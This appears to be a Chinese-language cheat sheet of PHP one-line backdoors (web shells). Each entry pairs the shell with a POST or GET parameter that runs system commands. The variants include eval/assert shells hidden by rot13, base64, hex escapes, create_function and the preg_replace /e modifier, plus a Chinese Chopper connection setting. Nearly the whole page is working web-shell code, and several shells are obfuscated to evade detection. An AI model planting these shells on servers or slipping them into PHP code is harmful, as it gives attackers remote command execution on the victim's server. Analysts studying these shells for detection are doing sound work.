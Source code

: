 ### php后门

```php
<?php eval($_POST[1]);?>
post: 1=system("ls");
```

```php
<?php eval(str_rot13('riny($_CBFG[cntr]);'));?>
post: page=system("ls");
```

```php
<?php call_user_func(create_function(null,'assert($_POST[c]);'));?>
post: c=system("ls");
```

```php
<?php $x=base64_decode("YXNzZXJ0");$x($_POST['c']);?>
中间base64解密为assert
post: c=system("ls");
```

```php
<?php array_map("ass\x65rt",(array)$_REQUEST['expdoor']);?>
get/post: expdoor=system("ls");
```

```php
<?php @preg_replace("/f/e",$_GET['u'],"fengjiao"); ?>

mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
◆i ：如果在修饰符中加上"i"，则正则将会取消大小写敏感性，即"a"和"A" 是一样的。
◆m：默认的正则开始"^"和结束"$"只是对于正则字符串如果在修饰符中加上"m"，那么开始和结束将会指字符串的每一行：每一行的开头就是"^"，结尾就是"$"。
◆s：如果在修饰符中加入"s"，那么默认的"."代表除了换行符以外的任何字符将会变成任意字符，也就是包括换行符！
◆x：如果加上该修饰符，表达式中的空白字符将会被忽略，除非它已经被转义。
◆e：本修饰符仅仅对于replacement有用，代表在replacement中作为PHP代码。
◆A：如果使用这个修饰符，那么表达式必须是匹配的字符串中的开头部分。比如说"/a/A"匹配"abcd"。
◆E：与"m"相反，如果使用这个修饰符，那么"$"将匹配绝对字符串的结尾，而不是换行符前面，默认就打开了这个模式。
◆U：和问号的作用差不多，用于设置"贪婪模式"。

http://localhost/test2.php?u=eval($_POST[c]);
post: c=system("ls");

菜刀中：
密码：c
配置：<O>u=eval($_POST[c]);</O>
```

```php
<?php eval(base64_decode(ZXZhbChiYXNlNjRfZGVjb2RlKFpYWmhiQ2hpWVhObE5qUmZaR1ZqYjJSbEtFeDVPRGhRTTBKdlkwRndiR1J0Um5OTFExSm1WVVU1VkZaR2RHdGlNamw1V0ZOclMweDVPQzVqYUhJb05EY3BMbEJuS1NrNykpOw));?>

其实其将
//<?php
eval($_POST[door])
//?>
多次base64加密解密，并且在一定程度上进行了混淆(插入了chr(47))

post: door=system("ls");
```
